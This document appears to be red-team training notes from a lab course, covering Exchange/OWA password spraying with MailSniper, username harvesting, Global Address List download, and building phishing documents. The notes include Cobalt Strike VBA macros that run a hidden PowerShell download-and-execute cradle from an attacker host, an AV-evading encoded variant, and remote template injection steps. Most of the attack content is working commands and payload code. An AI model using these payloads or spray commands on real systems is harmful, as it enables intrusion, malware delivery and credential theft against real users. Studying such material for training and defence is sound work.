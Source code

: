 # Spraying passwords with MailSniper

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Enumerate NetBIOS

```bash
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

---

# Finding valid usernames (https://gist.github.com/superkojiman/11076951)

With a list of usernames like so:
Bob Farmer
Isable Yates
John King

```bash
./namemash.py names.txt > possible.txt

Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Download Global Address List (Credentials needed)

```bash
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

---

# Checking the Zone of a file

```bash
Get-Content .\test.txt -Stream Zone.Identifier
```

---

# VBA Macro with Cobalt

1. Create a http listener
2. Go to Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for your HTTP listener
3. Copy the powershell command to a VBA macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub
```

4. Add the macro to a file ended with `.doc`
5. We can now pass the file as an attachment on an email (preferred way),
   or host the file "Site Management > Host File"

---

# Remove template injection

1. Create a http listener
2. Go to Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for your HTTP listener
3. Copy the powershell command to a VBA macro

```vba
# This will probably get caught by the AV
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub

# This won't be caught by AV
Sub AutoOpen()

    Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set obj = shellWindows.Item()
    obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0

End Sub
```

4. Add the macro to a file ended with `.dot`
5. Serve this file via "Site Management > Host file" and give it 'http://nickelviper.com/template.dot'
6. Create another file ending with `.docx` and right click it. Then 7-zip > Open archive
7. Navigate to word > \_rels, and edit `settings.xml.rels`
8. Add our served file as the "Target" => Target="http://nickelviper.com/template.dot"

Optional (https://github.com/JohnWoodman/remoteinjector)

```bash
python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
```

---

# HTML Smuggling

(Not recommeded because it changes the zone of the downloaded file to zone 3)

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37172329-html-smuggling
```
